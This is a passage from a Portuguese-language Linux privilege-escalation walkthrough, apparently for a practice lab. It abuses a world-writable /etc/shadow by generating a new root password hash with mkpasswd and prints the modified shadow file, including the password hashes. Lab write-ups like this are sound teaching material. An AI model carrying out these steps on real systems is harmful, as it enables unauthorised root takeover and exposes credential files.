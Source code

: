 


## **<a id="4"> • Weak File Permissions - Writable /etc/shadow.</a>**

Nesse passo, vamos explorar a escalação de privilégios através de uma falha de permissão de arquivo.

O arquivo `/etc/shadow` é um arquivo de senha que contém informações sobre todos os usuários do sistema. Ele é legível e gravável por todos os usuários no sistema. Isso significa que, um usuário não-root consegue escrever no arquivo `/etc/shadow` e alterar a senha de outros usuários no sistema.

```bash
user@debian:~$ ls -l /etc/shadow
-rw-r--rw- 1 root shadow 844 Mar  3 03:04 /etc/shadow
```

Então vamos gerar uma nova hash de senha para o usuário `root` e alterar o arquivo `/etc/shadow`.

```bash
user@debian:~$ mkpasswd -m sha-512 sonael
$6$hVrk1ucKydnjnOE$vhFNK.TSuS0hw7iS6/L.KzCsjb6Bd6jzgJqOq/u/8iJh4Ai8FZ4suzdqvP5xVPtsgMJ3RDQP4C.jAvRTiVGFY/

user@debian:~$ cat /etc/shadow
root:$6$hVrk1ucKydnjnOE$vhFNK.TSuS0hw7iS6/L.KzCsjb6Bd6jzgJqOq/u/8iJh4Ai8FZ4suzdqvP5xVPtsgMJ3RDQP4C.jAvRTiVGFY/:17298:0:99999:7:::
daemon:*:17298:0:99999:7:::
bin:*:17298:0:99999:7:::
sys:*:17298:0:99999:7:::
sync:*:17298:0:99999:7:::
games:*:17298:0:99999:7:::
man:*:17298:0:99999:7:::
lp:*:17298:0:99999:7:::
mail:*:17298:0:99999:7:::
news:*:17298:0:99999:7:::
uucp:*:17298:0:99999:7:::
proxy:*:17298:0:99999:7:::
www-data:*:17298:0:99999:7:::
backup:*:17298:0:99999:7:::
list:*:17298:0:99999:7:::
irc:*:17298:0:99999:7:::
gnats:*:17298:0:99999:7:::
nobody:*:17298:0:99999:7:::
libuuid:!:17298:0:99999:7:::
Debian-exim:!:17298:0:99999:7:::
sshd:*:17298:0:99999:7:::
user:$6$M1tQjkeb$M1A/ArH4JeyF1zBJPLQ.TZQR1locUlz0wIZsoY6aDOZRFrYirKDW5IJy32FBGjwYpT2O1zrR2xTROv7wRIkF8.:17298:0:99999:7:::
statd:*:17299:0:99999:7:::
mysql:!:18133:0:99999:7:::
```

Agora que temos a senha do usuário `root`, vamos usar o comando `su` para nos autenticar como root.
